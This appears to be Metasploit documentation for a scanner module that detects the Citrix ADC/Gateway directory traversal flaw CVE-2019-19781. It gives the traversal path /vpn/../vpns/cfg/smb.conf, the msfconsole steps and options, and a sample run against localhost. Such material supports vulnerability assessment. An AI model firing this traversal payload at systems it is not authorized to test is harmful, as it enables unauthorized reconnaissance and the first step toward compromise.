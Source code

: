 ##  Introduction

An issue was discovered in Citrix Application Delivery Controller (ADC) and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0. The vulnerability, tracked as CVE-2019-19781, allows for directory traversal. If exploited, it could allow an unauthenticated attacker to perform arbitrary code execution.

Because vulnerable servers allow for directory traversal, they will accept the request `GET /vpn/../vpns/` and  process it as a request for `GET /vpns/`, a directory that contains PERL scripts that can be targeted to allow for limited file writing on the vulnerable host.

This module checks if a target server is vulnerable by issuing an HTTP GET request for `/vpn/../vpns/cfg/smb.conf`and then checking the response for `[global]` since this configuration file should contain global variables. If `[global]` is found, the server is vulnerable to CVE-2019-19781.

## Verification Steps

1. Install the module as usual

2. Start msfconsole

3. Do: `use auxiliary/scanner/http/citrix_dir_traversal`

4.  Do: `set RHOSTS [IP]`

5. Do: `run`


## Options

1.  `Proxies`  . This option is not set by default.
2.  `RPORT`  . The default setting is  `80`. To use:  `set RPORT [PORT]`
3.  `SSL`  . The default setting is  `false`.
4.  `THREADS`  . The default setting is  `1`.
5.  `VHOST`  . This option is not set by default.
6.  `TARGETURI`  . This option is the base path. `/` by default.
7.  `PATH`  . This option is the traversal path. `/vpn/../vpns/cfg/smb.conf` by default.

## Scenarios

```
msf5 auxiliary(scanner/http/citrix_dir_traversal) > options

Module options (auxiliary/scanner/http/citrix_dir_traversal):

   Name       Current Setting            Required  Description
   ----       ---------------            --------  -----------
   PATH       /vpn/../vpns/cfg/smb.conf  yes       Traversal path
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080                       yes       The target port (TCP)
   SSL        false                      no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                          yes       Base path
   THREADS    1                          yes       The number of concurrent threads (max one per host)
   VHOST                                 no        HTTP server virtual host

msf5 auxiliary(scanner/http/citrix_dir_traversal) > run

[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/citrix_dir_traversal) >
```

##  References

1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19781>

2. <https://support.citrix.com/article/CTX267027>
